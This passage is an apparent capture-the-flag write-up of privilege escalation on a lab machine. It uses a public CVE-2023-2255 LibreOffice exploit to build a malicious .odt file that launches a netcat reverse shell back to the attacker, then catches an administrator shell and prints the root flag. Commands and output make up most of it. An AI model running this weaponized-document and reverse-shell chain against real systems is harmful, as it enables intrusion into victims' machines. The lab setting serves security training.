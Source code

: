 We find this exploit [https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255).

With this exploit, we can create a malicious file for a user to open.

```shell
$ python CVE-2023-2255.py --cmd "cmd.exe /c C:\users\public\nc.exe 10.10.14.12 5555 -e cmd" --output .\important.odt
File .important.odt has been created !
```

Upload `nc.exe` to the public folder.

```shell
*Evil-WinRM* PS C:\users\public> upload nc.exe
 
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!
```

Now upload the exploit to `C:\Important Documents` and start the listener.

![](assets/Pasted%20image%2020250514212755.png)

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.14] 62878
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin
```

## Post Exploitation

Get the flag

```shell
C:\Users\localadmin\Desktop>type root.txt
type root.txt
a7ffff38272fb5df4cce86e605bcfe5a
```
